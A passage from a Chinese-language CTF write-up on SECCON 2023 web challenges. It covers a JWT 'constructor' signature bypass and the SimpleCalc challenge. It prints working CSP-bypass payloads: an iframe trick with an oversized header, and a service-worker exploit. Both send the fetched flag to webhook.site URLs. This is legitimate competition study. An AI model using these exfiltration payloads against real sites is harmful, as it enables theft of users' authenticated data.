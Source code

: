 如果 `header.alg` 是 `constructor`，就會變成 `const signature = Object(data,secret)`，產出的結果會變成一個 string 的物件，而且裡面只含有 data，忽略了 secret：

``` js
console.log(Object("data", "secret")) // String {'data'}
```

因此只要根據這個構造一個相同的 signature 就好。

更詳細的 writeup 可以參考：https://github.com/xryuseix/CTF_Writeups/tree/master/SECCON2023

### SimpleCalc (23 solves)

這題可以讓你執行任意 JavaScript，但是必須使用 fetch 加上 X-FLAG 這個 header 才能拿到 flag，可是會被 CSP 擋住：

```  js
app.use((req, res, next) => {
  const js_url = new URL(`http://${req.hostname}:${PORT}/js/index.js`);
  res.header('Content-Security-Policy', `default-src ${js_url} 'unsafe-eval';`);
  next();
});
```

只要製造出一個 header too large 的 response 並用 iframe 嵌入，就能得到一個沒有 CSP 的 same-origin 頁面，繞過 CSP：

``` js
var f=document.createElement('iframe');
f.src = `http://localhost:3000/js/index.js?q=${'a'.repeat(20000)}`;
document.body.appendChild(f);
f.onload = () => {    
    f.contentWindow.fetch('/flag', { headers: {'X-FLAG': 'a'}, credentials:'include' })
        .then(res => res.text())
        .then(flag => location='https://webhook.site/2ba35f39-faf4-4ef2-86dd-d85af29e4512?q='+flag)
}
```

有趣的是如果用 `window.open` 就不行，看賽後討論是有人說因為 window.open 會把錯誤頁面導到一個 `chrome://error` 之類的地方，所以 origin 會變成 null。

而這題的預期解其實是 service worker，在 http + localhost 底下是可以用 sw 的，靠著 service worker 把 CSP header 拿掉。

底下是 @DimasMaulana 的 exploit：

```py
from urllib.parse import quote

target = "http://localhost:3000"
webhook = "https://webhook.site/9a2fbf03-9a64-49d1-9418-3728945d5e10"
rmcsp = """
self.addEventListener("fetch", (ev) => {
    console.log(ev)
    let headers = new Headers()
    headers.set("Content-Type","text/html")
    if (/\/js\//.test(ev.request.url)){
        ev.respondWith(new Response("<script>fetch('/flag',{headers:{'X-FLAG':'1'},credentials:'include'}).then(async r=>{location='"""+webhook+"""?'+await r.text()})</script>",{headers}))
    }
});
console.log("registered2")
document = {}
document.getElementById = ()=>{return {innerText:"testing"}}
"""

workerUrl = "/js/index.js?expr="+quote(rmcsp)

payload = "navigator.serviceWorker.register('"+workerUrl+"');setInterval(()=>{location='/js/test'},2000)"

print(payload)
payload = target+"/js/..%2f?expr="+quote(payload)
```